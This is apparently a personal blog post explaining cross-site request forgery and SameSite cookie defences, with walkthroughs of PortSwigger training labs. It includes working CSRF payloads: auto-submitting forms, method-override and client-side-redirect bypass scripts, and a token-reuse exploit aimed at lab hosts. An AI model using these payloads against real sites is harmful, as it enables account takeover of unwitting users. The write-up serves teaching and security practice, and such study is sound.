



+++
title = 'Cross-Site Request Forgery (CSRF)'
date = '2026-08-22T07:42:47+05:45'
draft = false
tags = []
featureimage = 'csrf.jpeg'
+++


## What is CSRF?

Cross-site Request Forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. 

Imagine you're logged into your bank's website in one browser tab. While you're still logged in, you visit a shady website in another tab. That shady website secretly tells your browser to send a request to your bank — like "transfer $500 to this account" — without you knowing.

Because your browser is *already logged in*  to the bank, it automatically attaches your login cookies to that request. The bank's server sees a valid logged-in request and thinks *you* asked for it, even though it was the shady site that triggered it behind your back.

---

## What is the impact of a CSRF attack?

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality.

---

## How does CSRF work?

For a CSRF attack to be possible, three key conditions must be in place:

- **A relevant action.**  There is an action within the application that the attacker has a reason to induce. This might be a privileged action (such as modifying permissions for other users) or any action on user-specific data (such as changing the user’s own password).
- **Cookie-based session handling.** Performing this action involves issuing one or more HTTP requests, and the web application relies solely on session cookies to identify the user who has made the request. There is no other mechanism in place for tracking sessions or validating user requests.
- **No unpredictable request parameters.** The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess. For example, when causing a user to change their password, the function is not vulnerable if an attacker needs to know the value of the existing password.

---

For example, suppose an application contains a function that lets the user change the email address on their account. When a user performs this action, they make an HTTP request like the following:

```php
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

This meets the conditions required for CSRF:

- The action of changing the email address on a user's account is of interest to an attacker. Following this action, the attacker will typically be able to trigger a password reset and take full control of the user's account.
- The application uses a session cookie to identify which user issued the request. There are no other tokens or mechanisms in place to track user sessions.
- The attacker can easily determine the values of the request parameters that are needed to perform the action.

With these conditions in place, the attacker can construct a web page containing the following HTML:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

If a victim user visits the attacker's web page, the following will happen:

- The attacker's page will trigger an HTTP request to the vulnerable website.
- If the user is logged in to the vulnerable website, their browser will automatically include their session cookie in the request (assuming Same Site cookies are not being used).
- The vulnerable website will process the request in the normal way, treat it as having been made by the victim user, and change their email address.

<aside>
💡

Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.

</aside>

---

## How to construct a CSRF attack:

Manually creating the HTML needed for a CSRF exploit can be cumbersome, particularly where the desired request contains a large number of parameters, or there are other quirks in the request. The easiest way to construct a CSRF exploit is using the CSRF PoC generator that is built in to Burp Suite Professional:

- Select a request anywhere in Burp Suite Professional that you want to test or exploit.
- From the right-click context menu, select Engagement tools / Generate CSRF PoC.
- Burp Suite will generate some HTML that will trigger the selected request (minus cookies, which will be added automatically by the victim's browser).
- You can tweak various options in the CSRF PoC generator to fine-tune aspects of the attack. You might need to do this in some unusual situations to deal with quirky features of requests.
- Copy the generated HTML into a web page, view it in a browser that is logged in to the vulnerable website, and test whether the intended request is issued successfully and the desired action occurs.

---

## Testing CSRF Token:

1. Remove the CSRF Token and see if the application accepts the request.
2. Change the request method from POST to GET.
3. See if CSRF Token is  tied to user session.

---

## Testing CSRF Token and CSRF Cookies:

1. Check if the Token is tied to the CSRF Cookie:
    1. Submit a invalid CSRF Token.
    2. Submit a valid CSRF Token from another user.
2. Submit valid CSRF Token and Cookie of another user.

---

### LAB: CSRF Vulnerability with no defenses:

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses)

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter` 

Login to the Website and use the change email function.
Look for the following request:



In burp suite professional you can just create a CSRF PoC automatically.


Use that HTML in the exploit sever to send to the victim and the lab will be solved.


---

## How to deliver a CSRF exploit:

The delivery mechanisms for cross-site request forgery attacks are essentially the same as for reflected XSS. Typically, the attacker will place the malicious HTML onto a website that they control, and then induce victims to visit that website. This might be done by feeding the user a link to the website, via an email or social media message. Or if the attack is placed into a popular website (for example, in a user comment), they might just wait for users to visit the website.

Note that some simple CSRF exploits employ the GET method and can be fully self-contained with a single URL on the vulnerable website. In this situation, the attacker may not need to employ an external site, and can directly feed victims a malicious URL on the vulnerable domain. In the preceding example, if the request to change email address can be performed with the GET method, then a self-contained attack would look like this:

``

---

## Common Defenses Against CSRF:

The Web applications are getting more immune to CSRF attacks. The deploy many defense mechanism some of them are explained below:

- **CSRF Tokens:** A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.
- SameSite Cookies:  SameSite is a rule attached to a cookie that tells the browser: *"Only send this cookie if the request is actually coming from my own site — not from some other website."* Think of it like a wristband at a concert. The wristband (cookie) only gets checked/accepted at the venue's own gates (your site). If someone tries to use it to get into a different building (a request triggered by `evil.com`), the bouncer (browser) refuses to honor it.
    
    **The three settings, in plain terms**
    
    - **Strict** = "Never send my cookie unless I'm already on this exact site." Very safe, but sometimes annoying — even clicking a link from an email to your account page might not log you in properly.
    - **Lax** = "Send my cookie if you clicked a normal link to get here, but not if some hidden background request (like a form auto-submitting or a script) is doing it." This is the default in most browsers now. It's a reasonable middle ground.
    - **None** = "Send my cookie everywhere, no restrictions." This is what you'd use for things that legitimately need to work across sites (like embedded widgets), but it removes this protection entirely.
    
    **The catch with "Lax" (the default)**
    
    `Lax` stops the sneaky *background* requests (the classic CSRF attack). But it still allows the cookie through if the attacker tricks you into clicking a plain link that goes to your bank via GET. So if a website ever lets you do something sensitive (like transfer money) just by visiting a link — not just clicking a button — that's still a hole, even with `Lax` enabled.
    
- Referrer-based validation: Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation.

---

## What is a CSRF token?

CSRF token is a unique, secret and unpredictable value that is generated by the server side application and shared with the client. 

A common way to share CSRF tokens with the client is to include them as a hidden parameter in an HTML form, for example:

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

Submitting this form results in the following request:

```html
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

When implemented correctly, CSRF tokens help protect against CSRF attacks by making it difficult for an attacker to construct a valid request on behalf of the victim. As the attacker has no way of predicting the correct value for the CSRF token, they won't be able to include it in the malicious request.

<aside>
💡

CSRF tokens don't have to be sent as hidden parameters in a `POST` request. Some applications place CSRF tokens in HTTP headers, for example. The way in which tokens are transmitted has a significant impact on the security of a mechanism as a whole. 

</aside>

---

## Common Flaws in CSRF Token Validation:

<aside>
💡

Validation of CSRF Token depends on request method.

</aside>

Some web application correctly validate the CSRF token when the request uses the POST method but skips the validation when the GET method is used. 

GET method to bypass the validation and deliver a CSRF attack:

```html
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

---

### LAB: CSRF where token validation depends on request method.

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

Look for this request. This is a POST request of change-email functionality.


When the token is changed the server sends Invalid CSRF token error.


So what if we change the request method. Select POST and right click to change the request method. I also have removed the CSRF token. 


In burp suite professional there is an option to create a PoC for CSRF so i am going to use that.


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional By Kastra -->
  <body>
    <form action="https://0a9100570404dbc0820d7f3200c80028.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="testfinal&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

In exploit server add ths script to the body and send to the victim.


---

<aside>
💡

Validation of CSRF token depends on token being present

</aside>

Some web application correctly validate the token when the token is present in request and completely skip the validation if the token is not present. 

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack.

---

### LAB: CSRF where token validation depends on token being present.

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

The vulnerability occurs in the email-change function. Check for the request and try removing the entire parameter of CSRF token then t should work and then generate CSRF PoC using PoC generator of Burpsuite Professional. Then in the body of the exploit server paste the payload and then the lab should be solved. 


---

<aside>
💡

CSRF token is not tied to the user session.

</aside>

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

---

### LAB: CSRF where token is not tied to user session:

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

Check for the request change POST request and see that when th CSRF token is used for once it will expire.

```html
POST /my-account/change-email HTTP/2
Host: [0ad0007b035c726681099ee5003f00c7.web-security-academy.net](http://0ad0007b035c726681099ee5003f00c7.web-security-academy.net/)
Cookie: session=ujLsnJBZHuyUdfEDfSvRvvCEpMhvucRG
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="149", "Chromium";v="149", "Not)A;Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Origin: [https://0ad0007b035c726681099ee5003f00c7.web-security-academy.net](https://0ad0007b035c726681099ee5003f00c7.web-security-academy.net/)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: [https://0ad0007b035c726681099ee5003f00c7.web-security-academy.net/my-account?id=wiener](https://0ad0007b035c726681099ee5003f00c7.web-security-academy.net/my-account?id=wiener)
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
email=test%[40email.net](http://40email.net/)&csrf=IgnVXXzAQDbjWbVgiZZggHz8oMO5p2ku
```

This is the POST request we are looking for:

when we use the CSRF token of one account to another account. It works, the web application checks if the CSRF token is from the pool of token given by the server but it doesn’t check if the CSRF token belongs to that user or not. So to solve the lab use another user CSRF token to make a PoC and send to the victim.


The script that i used is below:

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<form action="[https://0ad0007b035c726681099ee5003f00c7.web-security-academy.net/my-account/change-email](https://0ad0007b035c726681099ee5003f00c7.web-security-academy.net/my-account/change-email)" method="POST">
<input type="hidden" name="email" [value="final@carlos.net](mailto:value=%22final@carlos.net)" />
<input type="hidden" name="csrf" value="Ewt7mlAsVkBbyIgR4kWKhZPM0R19dPxu" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>
```


---

<aside>
💡

CSRF token is tied to a non-session cookie

</aside>

Like the above vulnerability of not linking CSRF token with the user, this time CSRF token is tied to the cookie but not to the same cookie that is used to track sessions.

This mostly occurs when an application uses two different frameworks, one for session handling and one for CSRF protection, which are not integrated together.

This is a pretty challenging thing to exploit. If the website contains any behavior that allows an attacker to set a cookie in  victim;s browser, then an attack is possible. 

It's often called "related domain attacks" or cookie tossing/cookie shadowing.

---

### LAB: CSRF where token is tied to non-session cookie:

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

The vulnerability is in the email change functionality. Look for the following POST request.


Here `csrfkey` and `csrf token` are linked with each other but they are not verified if the belong to the particular user. The main base of the security is that if an attacker can change the `csrf` token he or she cannot change the `csrfkey` value from the header. But in this application we also have `HTTP header injection` vulnerability due to which we can change `csrfkey` value.

Firstly lets suppose Carlos as attacker and Wiener as a victim.

For my example:

Carlos (Attacker):

CSRF Token: `COtuHyBJB8e2sk3MIlgUSjlMq9UEywiZ` 

csrfkey: `kkWMJyqDldQHM1rMsDQprdxzyMZEd0FN` 

Lets find a way to inject the `csrfkey` into the header:

We found search functionality is vulnerable to `HTTP header injection`:


We were successful to add csrfkey cookie


Then lets generate a CSRF PoC. Go back to the email change functionality:


This is script that i used to exploit the vulnerability and this is generated by the professional version of the burpsuite.

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<form action="[https://0a660026049ca9d98023176f00b700fb.web-security-academy.net/my-account/change-email](https://0a660026049ca9d98023176f00b700fb.web-security-academy.net/my-account/change-email)" method="POST">
<input type="hidden" name="email" [value="wiener1@test.net](mailto:value=%22wiener1@test.net)" />
<input type="hidden" name="csrf" value="COtuHyBJB8e2sk3MIlgUSjlMq9UEywiZ" />
<input type="submit" value="Submit request" />
</form>

</body>
</html>
```

Put this script in the body of the exploit server and then send to the victim and then the lab will be solved. 


---

<aside>
💡

CSRF token is simply duplicated in a cookie

</aside>

Some web application don’t maintain the record of the CSRF token that have been issued, but instead of making the record it attaches the csrf token in both header and body. So to verify the CSRF token it compares the CSRF token in HTTP header and body. 

```html
POST /email/change HTTP/1.1
Host: [vulnerable-website.com](http://vulnerable-website.com/)
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
[csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.co](mailto:csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.co)m
```

---

### LAB: CSRF where Token in duplicated in cookie:

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

This lab uses a method to prevent from the CSRF attacks using that it needs to have CSRF Token in HTTP header and request body too. The gist of defense here is that if a attacker gets a way to change the CSRF  token value he will not be able to change the HTTP header unless there is HTTP header injection vulnerability in the web application. 

First we have HTTP header injection vulnerability in the search functionality in the application. It sets the last search as an HTTP header.


To exploit the following vulnerability of double submit technique. 


Then move back to the email change functionality in the web application and intercept the request and send to CSRF PoC generator.


But we have to change something in order to do the last serach header injection to do that we have the following command:

We need to remove the script tag in the PoC and replace with the following command;

``


```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<form action="[https://0a35003203bae3c680f3170300a400e0.web-security-academy.net/my-account/change-email](https://0a35003203bae3c680f3170300a400e0.web-security-academy.net/my-account/change-email)" method="POST">
<input type="hidden" name="email" [value="test@gmail.com](mailto:value=%22test@gmail.com)" />
<input type="hidden" name="csrf" value="ql8IlPOe93KGOBx5GsSOdZLktjy6bywT" />
<input type="submit" value="Submit request" />
</form>

</body>
</html>
```

This is the code i used and then upload this code to the body  section of the exploit server and send to the victim then the lab will be solved. 


---

## Bypassing SameSite Cookie restrictions:

Samesite is browser security mechanism which determines when a websites cookies are included originated from other websites. SameSite cookie restrictions provide partial protection against a variety of cross-site attacks, including CSRF, cross-site leaks, and some CORS exploits.

---

## What is a site in the context of SameSite Cookies:

- A **site** = eTLD+1 (effective top-level domain + one label), not the full hostname.
- **eTLD** accounts for multi-part suffixes treated as one unit (e.g. `.co.uk`, `.com.au`), tracked via the Public Suffix List — not just the last dot segment.
- Examples:
    - `app.example.com` & `www.example.com` → same site (`example.com`)
    - `example.co.uk` & `other.co.uk` → different sites (`.co.uk` is a shared suffix, not a distinguishing domain)
- **Scheme counts too**: `http://example.com` vs `https://example.com` = cross-site, even with identical hostname.
- **Why it matters**: `SameSite` cookie attribute uses this definition to decide whether to send cookies on cross-site requests (CSRF protection). Subdomains of the same site are treated as related; different schemes or different eTLD+1 are not.

---

## What is the difference between a site and a origin?

- **Origin** = scheme + host + port (must match exactly)
    - `app.example.com` ≠ `blog.example.com` (different host)
    - `http://` ≠ `https://` (different scheme)
    - `:8080` ≠ default port (different port)
- **Site** = eTLD+1 + scheme (subdomain & port ignored)
    - `app.example.com` = `blog.example.com` (same site)
    - `:8080` = default port (same site)
    - `http://` ≠ `https://` (still cross-site)

**Rule of thumb:** same-origin ⟹ same-site, but not the reverse. Origin is strict (used for JS/fetch access rules); Site is loose (used for SameSite cookies).

| **Request from** | **Request to** | **Same-site?** | **Same-origin?** |
| --- | --- | --- | --- |
| `https://example.com` | `https://example.com` | Yes | Yes |
| `https://app.example.com` | `https://intranet.example.com` | Yes | No: mismatched domain name |
| `https://example.com` | `https://example.com:8080` | Yes | No: mismatched port |
| `https://example.com` | `https://example.co.uk` | No: mismatched eTLD | No: mismatched domain name |
| `https://example.com` | `http://example.com` | No: mismatched scheme | No: mismatched scheme |

---

## How does SameSite work?

Before the SameSite mechanism was introduced, browsers sent cookies in every request to the domain that issued them, even if the request was triggered by an unrelated third-party website. SameSite works by enabling browsers and website owners to limit which cross-site requests, if any, should include specific cookies. 

All major browsers currently support the following SameSite restriction levels:

- Strict
- Lax
- None

Developers can manually configure a restriction level for each cookie they set, giving them more control over when these cookies are used. To do this, they just have to include the `SameSite` attribute in the `Set-Cookie` response header, along with their preferred value:

```
Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict
```

If the website issuing the cookie doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default. 

---

### Strict:

If a cookie is set with the `SameSite=Strict` attribute, browsers will not send it in any cross-site requests. In simple terms, this means that if the target site for the request does not match the site currently shown in the browser's address bar, it will not include the cookie. But this may impact user experience.

---

### Lax:

Lax SameSite restriction means that the browser will send the cookie in cross site request if and only if the below two conditions are satisfied.

- The request method is `GET`
- The request was resulted from a top-level domain navigation by the user, such as clicking on a link.

This means that cookies are not included in cross-site `POST` request.

---

### None

If a cookie is set with the `SameSite=None` attribute, this effectively disables SameSite restrictions altogether, regardless of the browser. As a result, browsers will send this cookie in all requests to the site that issued it, even those that were triggered by completely unrelated third-party sites.

With the exception of Chrome, this is the default behavior used by major browsers if no `SameSite` attribute is provided when setting the cookie.

There are legitimate reasons for disabling SameSite, such as when the cookie is intended to be used from a third-party context and doesn't grant the bearer access to any sensitive data or functionality. Tracking cookies are a typical example.

If you encounter a cookie set with `SameSite=None` or with no explicit restrictions, it's worth investigating whether it's of any use. 

When setting a cookie with `SameSite=None`, the website must also include the `Secure` attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.

```
Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure
```

---

## Bypassing SameSite Lax restrictions using GET requests:

In real life, servers aren’t always strict about whether they receive a `GET` or `POST` request to a given endpoint, even those than are expecting a form submission. 

As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. The following is one of the simplest approaches to launching such an attack:

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="GET">
    <input type="hidden" name="_method" value="POST">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

Other frameworks support a variety of similar parameters.

---

### LAB: SameSite Lax bypass via method override:

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-bypassing-samesite-lax-restrictions-using-get-requests/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

#### Reconnaissance: Study the change email function

Login into your own account and change the email address. Look at the change-email `POST`  request. There is not any unpredictable cookies which is a sign that the web application is vulnerable to CSRF attack. Look at the `POST` Login request there is not any specific `SameSite`  restrictions being set. So, it follows the default `Lax` restriction level. This means that the session cookie will be sent in cross-site `GET` request, as long as they involve a top-level navigation.


#### Exfiltration: Bypass the SameSite restrictions:

Send the `POST /my-account/change-email request` to Burp Repeater. Check by changing the request method using burp. See that the method is not allowed it only allows `POST` request in that particular endpoint.

Lets try overriding the method by adding `_method` parameter in the query.


#### Exploitation: Craft an exploit

Go to the exploit server and in the body section create a HTML/JavaScript payload that induces the viewer browser to issue a malicious `GET` request.

<aside>
💡

Remember that this must cause a top-level navigation in order for the session cookie to be included.

</aside>

```html
<script>
    document.location = "https://LAB_ID.web-security-academy.net/my-account/change-email?email=pwned@wiener.net&_method=POST";
</script>
```


---

## Bypassing SameSite restrictions using on-site gadgets:

`SameSite=Strict` blocks cookies on cross-site requests, but only checks the *origin of the page making the request*, not the original click. If a same-site page has a client-side open redirect (e.g., reads a `?url=` param and does `window.location = target` without validation), an attacker can chain through it:

1. Victim clicks a link to `target-site.com/redirect?url=target-site.com/action?params`
2. The redirect page runs *on* the target site and issues a second, same-site navigation to the action URL
3. Since that second request originates from the target site itself, the `Strict` cookie gets attached — bypassing the protection

---

### LAB: SameSite Strict bypass via client-side redirect

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-bypassing-samesite-restrictions-using-on-site-gadgets/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

#### Reconnaissance: Study the change email function

Check the `POST /my-account/change-email`  request it doesn’t contain any unpredictable tokens. So, it might be vulnerable to CSRF attack.


Check at `POST /login` request. Look that it strictly sets SameSite. This prevents thee browser from including these cookies in cross-site requests.


#### More Recon: Identify a suitable gadget

In one of the blog post comment and observer in burpsuite. You will find a redirection after the submission of the comment. Initially you are sent to  `/post/comment/confirmation?postID=x` but, after few seconds the page redirects to the comment page.


In the response of this request we can see the redirect is handled by a client-side javascript file `/resources/js/commentConfirmationRedirect.js` 


When we see the source code of `/resources/js/commentConfirmationRedirect.js`  we find that it dynamically changes the `postID` parameter


Lets see by changing the `postID` parameter to any arbitrary string.

`/post/comment/confirmation?postId=kastra`

We see that it shows us a confirmation page before redirecting us to the path containing the arbitrary string. 

Lets try to redirect to `my-account` using path traversal sequence

`/post/comment/confirmation?postId=1/../../my-account`

We observe that the browser normalizes and this url and successfully takes to account page. It explicitly sends the `GET` request for the arbitrary endpoint on the target-site.

#### Exploitation: Bypass the SameSite restrictions:

Go to the exploit server and create a script that induces the viewers browser to send the GET request we just tested. The following is the exploit i used:

```html
<script>
document.location = "[https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account](https://your-lab-id.web-security-academy.net/post/comment/confirmation?postId=../my-account)";
</script>
```

Store the exploit and test the exploit. Notice that it opens my-account page, which is logged-in so it will attach the cookies.

#### Final Exploitation: Craft a working Exploit (PoC):

Send the `POST /my-account/change-email` to the burp repeater and change the request method to `GET` and see that it changes the email no matter of the request being changed. 


Go back to the exploit server and change the `postID`  in the script so that it causes to change-email of the victim. The following exploit is what I used.

```html
<script>
document.location = "[https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1](https://your-lab-id.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1)";
</script>
```


---

## Bypassing SameSite restrictions via vulnerable sibling domains:

Same-site ≠ same-origin: sibling domains sharing a site can still be pulled into cross-site attacks via bugs like XSS that trigger arbitrary requests, undermining site-based defenses entirely.
Beyond classic CSRF, check WebSocket handshakes for CSWSH (Cross-Site WebSocket Hijacking),  same vulnerability, different transport

---

### LAB: SameSite Strict bypass via sibling domain

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-bypassing-samesite-restrictions-via-vulnerable-sibling-domains/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

The vulnerability is in the chat functionality of the web application it uses WebSockets to send the messages to the server and the client.


The 5 one is the Ready packet which also known as the WebSocket Handshake


When the page is reloaded then the we see the previous and we are again connected to the web socket.

